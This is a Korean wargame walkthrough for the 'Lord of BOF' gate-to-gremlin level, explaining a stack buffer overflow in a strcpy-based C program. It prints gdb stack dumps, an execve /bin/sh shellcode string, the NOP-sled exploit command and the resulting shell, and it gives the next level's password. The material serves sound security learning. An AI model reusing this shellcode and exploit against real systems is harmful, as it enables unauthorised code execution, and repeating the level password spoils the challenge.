 # [WriteUp]The Lord of BOF - gate → gremlin

:black_nib:ChyKor12(sjjo0225@gmail.com)

---

```bash
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF 
	- gremlin
	- simple BOF
*/
 
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

```

`home` 디렉토리에서는 권한 문제 때문에 gdb로 바이너리를 분석할 수 없어서 `/tmp`로 복사해서 분석해야 한다.

```bash
[gate@localhost gate]$ cp gremlin /tmp
```

gdb에서, `strcpy()`가 호출되고 난 직후에 break point를 걸고 스택의 상태를 살펴보자.

```bash
(gdb) b* main+59
Breakpoint 1 at 0x804846b
(gdb) r AAAAAAAA
Starting program: /tmp/gremlin AAAAAAAA

Breakpoint 1, 0x804846b in main ()
(gdb) x/80wx $esp
0xbffffcc0:	0xbffffbc8	0xbffffe15	0x41414141	0x41414141
0xbffffcd0:	0x40029a00	0x40022004	0x40013868	0x40013ed0
0xbffffce0:	0x08048200	0x00003d60	0x40021ca0	0x000006f3
0xbffffcf0:	0x40021fd0	0x4001ad70	0x400143e0	0x00000003
0xbffffd00:	0x40014650	0x00000001	0xbffffc20	0x08048170
0xbffffd10:	0x400140d4	0x078e530f	0xbffffc9c	0x08048256
0xbffffd20:	0x40021ca0	0x400143e0	0xbffffcac	0x400261a6
0xbffffd30:	0x4001ead0	0x400143e0	0x40020290	0x400143e0
0xbffffd40:	0x400140d4	0x0177ff8e	0xbffffccc	0x08048244
0xbffffd50:	0x40021590	0x400143e0	0xbfffffe4	0xbffffcbf
0xbffffd60:	0x00000020	0x401081ec	0xbffffca0	0x4000a7fd
0xbffffd70:	0x40010c27	0x40014680	0x00000007	0x4000a74e
0xbffffd80:	0x08049510	0x4000ae60	0xbffffd14	0x40013ed0
0xbffffd90:	0x08048170	0x0804951c	0x08048256	0x40021ca0
0xbffffda0:	0xbffffcc8	0x4000a970	0x400f855b	0x08049510
0xbffffdb0:	0x4000ae60	0xbffffd14	0xbffffcc8	0x0804841b
0xbffffdc0:	0x080494fc	0x08049510	0xbffffce8	0x400309cb
0xbffffdd0:	0x00000002	0xbffffd14	0xbffffd20	0x40013868
0xbffffde0:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffdf0:	0x08048430	0x00000002	0xbffffd14	0x080482e0
(gdb) info register ebp
ebp            0xbffffdc8	-1073742648
(gdb) p/x 0xbffffdcc - 0xbffffcc8
$1 = 0x104
```

return address는 `$ebp+4`에 있고, 입력이 시작되는 주소가 buffer의 주소이기 때문에 두 주소의 차이를 구하면 return address를 덮기 전에 얼마나 채워야 하는지 알 수 있다. 디버깅할 때와 실제로 프로그램을 실행할 때 주소가 조금씩 달라지기 때문에 적당히 중간쯤에 쉘코드를 넣어 놓고, 그 이외의 공간은 모두 NOP로 채우고 return address를 buffer의 앞부분의 주소로 덮으면 NOP은 모두 스킵되고 쉘코드가 실행되어 쉘을 획득할 수 있을 것이다.(NOP sled)

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80`

32비트 프로그램에서 system call로 `"/bin/sh"`를 실행하는 쉘코드이다. `strcpy()`로 문자열을 복사하기 때문에 중간에 `\x00`이 있으면 안 된다.

```bash
<99\xb0\x0b\xcd\x80"+"\x90"*136+"\x10\xfd\xff\xbf"'`
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ
                                                                                                                       �������������������������������������������������������������������������������������������������������������������������������������������
bash$ whoami
gate
```

이제 이 익스플로잇을 그대로 `home`디렉토리에서 진행하면 다음 레벨로 가는 password를 얻을 수 있다. LOB에서 쉘을 획득했을 때는 `my-pass`라는 특수한 명령어를 입력하면 password를 준다.

```bash
<99\xb0\x0b\xcd\x80"+"\x90"*136+"\x10\xfd\xff\xbf"'`
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ
                                                                                                                       �������������������������������������������������������������������������������������������������������������������������������������������
bash$ whoami
gremlin
bash$ my-pass
euid = 501
hello bof world
```

